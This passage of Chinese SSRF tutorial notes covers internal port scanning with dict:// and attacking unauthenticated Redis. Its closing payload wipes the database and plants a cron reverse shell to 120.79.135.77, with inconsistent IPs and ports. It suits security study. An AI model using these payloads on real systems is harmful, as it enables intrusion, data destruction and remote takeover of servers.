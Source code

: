    * CentOS：`file:///etc/redhat-release`

4. 在确定内网ip后，利用SSRF探测目标服务器端口上运行的服务版本信息：利用**dict协议**

   * dict协议的格式：`dict://ip:port`

   * 利用爆破修改端口的值进行爆破，爆破针对单一IP

5. 在确定内网ip后，利用爆破对同C段的ip进行单一端口的检查：利用**dict协议**

   * 利用爆破修改D段的值进行爆破，爆破针对单一端口

6. 利用dict协议攻击redis

   > 1. Redis是一个由Salvatore Sanfilippo写的key-value存储系统，是一种跨平台的非关系型数据库。Redis一般绑定在本地的**6379端口**上，如果在没有开启认证的情况下，可以导致任意用户利用ssrf漏洞攻击内网中的未授权Redis以及读取Redis的数据
   >
   >    > 未授权：使用`dict://内网IP:6379/info`查看信息，若可以返回了数据，则说明未授权，不用密码查看
   >
   > 2. 在利用dict协议攻击redis之前，我们可以通过file协议包含/etc/hosts文件，查看服务机器内网网段；再通过SSRF漏洞对同C段中开启了6379端口的服务器进行探测，从而获取更多的攻击目标
   >
   > 3. dict协议攻击redis：如果允许redis的用户是root用户，攻击者可以通过写定时任务的方式反弹shell[^注]，在接收反弹shell的服务器获取到反弹的shell之后，可以直接在自己的shell中操作被攻击服务器的shell
   >
   >    * 反弹shell：通过菜刀工具getshell连接webshell的攻击相当于一种正向连接，利用服务器通过端口进行通信；而反弹shell是一个反向的连接，是目标服务器主动发起的连接，所以必须要有公网上的服务器接收反弹shell
   >
   >      <img src="../images/08_服务器端请求伪造漏洞/image-20210819172521555.png" alt="image-20210819172521555" style="zoom: 67%;" />
   >    
   >    * 反弹shell的姿势：[Linux下几种反弹Shell方法的总结与理解 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/178150.html)
   >    
   >    > 1. 定时任务的存储目录：
   >    >
   >    >    * centos：在/var/spool/cron/目录下
   >    >    * Ubuntu：在/var/spool/cron/crontabs/目录下
   >    >
   >    >    > 注：运行redis的系统不一定与存在SSRF漏洞的系统一致。所以在请求的是否最好将这两个文件夹都试试，找到能用的那个
   >    >
   >    > 2. 攻击使用的payload：假设所攻击的服务器内网IP为172.17.0.5，获取反弹shell的服务器为120.79.135.77:2333
   >    >
   >    >    > ~~~shell
   >    >    > # 给被攻击的服务器传递的payload
   >    >    > dict://172.17.0.1:6379/flushall							# 清空数据库
   >    >    > dict://172.17.0.1:6379/config set dir /var/spool/cron/  # 设置数据库备份文件的目录
   >    >    > dict://172.17.0.1:6379/config set dbfilename root		# 设置文件名
   >    >    > # 下面一的语句，表示将服务器获取的shell反弹到120.79.135.77的1234端口
   >    >    > dict://172.17.0.1:6379/set x "\n* * * * * bash -i >& /dev/tcp/120.79.135.77/1234 0>&1\n"
   >    >    > dict://172.17.0.1:6379/save

[^注]: [shell有哪些？Zsh和Bash的区别是什么？ - 简书 (jianshu.com)](https://www.jianshu.com/p/a891af6f87e0)